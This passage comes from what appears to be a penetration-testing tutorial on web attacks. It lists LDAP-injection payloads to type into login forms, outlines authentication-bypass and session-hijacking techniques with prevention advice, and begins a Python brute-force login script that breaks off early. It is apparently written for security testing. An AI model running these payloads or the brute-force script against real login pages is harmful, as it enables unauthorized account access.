 ```bash

# Step 5: Test for LDAP injection
# Try these payloads in login forms:
*)(uid=*))(|(uid=*
admin))(|(password=*)
*))%00
```

### 3.2 Authentication and Session Management Flaws

Exploiting weaknesses in authentication and session handling:

1. **Authentication Bypass**:
   - Technique: Circumventing login mechanisms
   - Methods: Default credentials, brute force, logic flaws
   - Testing: Credential stuffing, password spraying, logic manipulation
   - Prevention: Strong password policies, MFA, account lockout

2. **Session Hijacking**:
   - Technique: Stealing or forging session identifiers
   - Methods: Session fixation, XSS, network sniffing
   - Testing: Analyzing session token generation, token reuse tests
   - Prevention: Secure cookies, token regeneration, HTTPS

3. **Broken Authentication Flows**:
   - Technique: Exploiting flaws in authentication processes
   - Methods: Password reset flaws, registration weaknesses
   - Testing: Process flow analysis, request manipulation
   - Prevention: Secure design patterns, proper validation

```python
# Example: Authentication testing script

import requests
import sys
import time
from concurrent.futures import ThreadPoolExecutor

def test_login(url, username, password):
    """Test a single username/password combination"""
    data = {
        'username': username,
        'password': password,
        'submit': 'Login'
    }
    
    try:
        response = requests.post(url, data=data, allow_redirects=True)
        
        # Check for successful login indicators
        # This will vary depending on the application
        if "Invalid username or password" not in response.text and "Login failed" not in response.text:
            print(f"[+] Possible valid credentials found: {username}:{password}")
            print(f"    Response length: {len(response.text)}")
            print(f"    Response status: {response.status_code}")
            return True
        return False
    except Exception as e:
        print(f"[-] Error testing {username}:{password} - {str(e)}")
        return False

def brute_force(url, usernames, passwords, max_workers=10):
    """Perform a brute force attack against the login page"""
    print(f"[*] Starting brute force attack against {url}")
```